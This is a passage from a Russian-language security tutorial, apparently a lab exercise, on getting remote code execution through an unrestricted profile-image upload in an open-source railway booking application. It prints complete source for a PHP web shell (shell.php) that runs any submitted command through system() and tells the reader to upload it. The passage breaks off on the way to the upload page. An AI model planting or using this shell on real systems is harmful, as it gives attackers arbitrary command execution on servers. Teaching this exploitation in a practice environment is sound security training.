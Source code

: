 Хорошо, теперь, когда мы знакомы с уязвимостью удаленного выполнения кода и тем, как она работает, давайте посмотрим,
как мы могли бы ее эксплуатировать! 


Практика приводит к совершенству
Чтобы понять, как уязвимость загрузки файлов может привести к RCE, лучшим подходом будет получить практический опыт 
работы с ней. Удобный (и этичный) способ сделать это — найти и загрузить авторитетное веб-приложение с открытым 
исходным кодом, в котором эта уязвимость встроена. Многие проекты с открытым исходным кодом существуют в таких 
местах, как GitHub, которые можно запустить в вашей собственной среде для экспериментов и практики. В сегодняшнем 
задании мы продемонстрируем достижение RCE посредством неограниченной загрузки файлов в  системе управления железной 
дорогой с открытым исходным кодом , в  которой эта уязвимость  встроена.


Эксплуатация RCE через загрузку файлов
Теперь мы рассмотрим, как можно использовать эту уязвимость. Пока что вы можете просто читать, но возможность 
применить эти знания на практике появится. После того, как уязвимость RCE была идентифицирована, которую можно 
использовать через загрузку файла, нам нужно создать вредоносный файл, который позволит удаленное выполнение кода 
при загрузке.

Ниже приведен пример файла PHP , который можно загрузить для эксплуатации этой уязвимости. Используя ваш любимый 
текстовый редактор, скопируйте и вставьте приведенный ниже код и сохраните его как shell.php.

```commandline
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
При доступе к указанному выше скрипту отображается поле ввода. Все, что вводится в это поле ввода, затем запускается 
в базовой операционной системе с помощью функции system() PHP , а вывод отображается пользователю. Это идеальный 
файл для загрузки в уязвимое приложение бронирования железнодорожной системы. Уязвимость связана с загрузкой нового 
изображения профиля. Поэтому, чтобы ее эксплуатировать, мы переходим на страницу изображения профиля:
